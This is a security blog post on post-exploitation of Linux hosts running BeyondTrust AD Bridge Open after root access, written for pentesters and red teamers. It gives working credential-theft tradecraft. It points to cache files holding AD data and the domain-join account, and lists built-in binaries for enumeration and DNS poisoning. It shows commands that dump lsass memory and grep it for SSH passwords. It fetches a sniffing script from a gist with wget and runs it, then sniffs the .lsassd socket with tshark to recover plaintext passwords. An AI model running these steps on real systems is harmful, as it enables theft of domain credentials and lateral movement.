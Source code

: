 ```yaml
---
title: "BeyondTrust AD Bridge Open Post-Exploitation"
layout: "post"
---
```


[AD Bridge Open](https://github.com/BeyondTrust/pbis-open) is an open-source community project sponsored by BeyondTrust Corporation. It is essentially a wrapper application that will facilitate the integration of \*nix hosts with Microsoft Active Directory (sets up Kerberos and LDAP Auth).


**This post describes a few post-exploitation tips, were ROOT access was obtained on a Linux host that is using BeyondTrust AD Bridge Open.**


Also the post content is based on the last open source version that is available on GitHub (AD Bridge Open 9.1.0.551). The project was discontinued and moved to an enterprise closed source model in 2021.



## Builtin binaries and files for situational awareness

AD Bridge Open installs and uses several binaries that are very useful for enumerating an Active Directory environment, if the Linux box was streamlined and does not have any LDAP or SMB clients installed (those are typically present on Linux distributions).

The software keeps a cache file of domain users and associated Active Directory information in this file `/var/lib/pbis/db/lsass-adcache.filedb.DOMAIN.LOCAL`.

So without making any request to the Domain Controllers it is possible access a trove of useful information about the AD environment.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-1.png">
</p>



Another interesting file is `/var/lib/pbis/db/lwi_events.db`. If the Active Directory has been hardened and the Machine Account Quota is set to zero for all regular domain accounts, by reading this file one can get the domain account that was used to join the Linux machine to the domain - again without making a single request to the Domain Controllers.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-2.png">
</p>



As for useful LOLBIN's for enumeration and situational awareness, they can all be found in the directory `/opt/pbis/bin/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-3.png">
</p>


These are pretty much self explanatory:

 - `/opt/pbis/bin/enum-groups`
 - `/opt/pbis/bin/enum-members`
 - `/opt/pbis/bin/enum-objects`
 - `/opt/pbis/bin/enum-users`
 - `/opt/pbis/bin/list-groups-for-user`
 - `/opt/pbis/bin/find-by-sid`
 - `/opt/pbis/bin/find-group-by-id`
 - `/opt/pbis/bin/find-group-by-name`
 - `/opt/pbis/bin/find-objects`
 - `/opt/pbis/bin/find-user-by-id`
 - `/opt/pbis/bin/find-user-by-name`
 - `/opt/pbis/bin/ldapsearch`


`/opt/pbis/bin/get-dc-list DOMAIN.LOCAL` Will output the names and IPs of all Domain Controllers.


`/opt/pbis/bin/adtool` Can query and modify objects in Active Directory - eg: add user or computer accounts.


`/opt/pbis/bin/get-dc-list/update-dns` Registers IP addresses and the corresponding PTR records in DNS via a secure dynamic DNS update that could be handy for ADIDNS Zone poisoning.


`/opt/pbis/bin/lwio-copy` Is an SMB client that can be used to transfer files.



You can find more details about the binaries function, command flags and whatnot on the [official documentation](https://www.beyondtrust.com/docs/ad-bridge/getting-started/linux-admin/index.htm).




# Domain credentials for lateral movement and privilege escalation

As with any pentesting or red teaming engagement I want to obtain Domain credentials to move laterally and/or escalate privileges.

SSH authentication is integrated with Active Directory using AD Bridge Open, so I can dump the LSASS process memory, run strings and grep for SSH authentications and/or passwords.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-4.png">
</p>


GDB can be attached using one of the AD Bridge Open binaries,
```bash
/opt/pbis/bin/lwsm gdb lsass
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-5.png">
</p>


Or I can just run:
```bash
gcore `ps aux | grep '[l]sass' | awk '{print $2}'` && strings core.* | grep -C 8 -Hnia --color=auto "ssh"
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-6.png">
</p>


The only issue with this method is that it's a bit hit-and-miss with the grep "offsets". Sometimes I get the user credential within the offsets, other times I get nothing and the credential is somewhere inside the ~1Gb memory dump file.


So I decided to look again at the files being used by AD Bridge Open, and found several of Unix Sockets on the directory `/var/lib/pbis/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-7.png">
</p>


`.lsassd` appeared interesting, so I decided to sniff its traffic.

I'll need to install wireshark/tcpdump and socat and then run a small bash script to accomplish this.

Since I have to wait for an SSH connection, I'm going to run everything from a Tmux session. That way I can detach it and leave it running.

```bash
yum -y install wireshark socat tmux
tmux
wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh
chmod 755 unixsock-sniff.sh
./unixsock-sniff.sh -u /var/lib/pbis/.lsassd
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-8.png">
</p>

If the Linux box is often accessed by users or there's some automated scanning software that performs authenticated scans against the box (eg: Nessus), I can quickly capture an SSH login and the plain-text password.

```bash
tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd
```


Pretty sure that there's a lot that I didn't cover or missed, but this will help get us started in a pentest or red team of \*nix hosts with BeyondTrust AD Bridge Open installed.

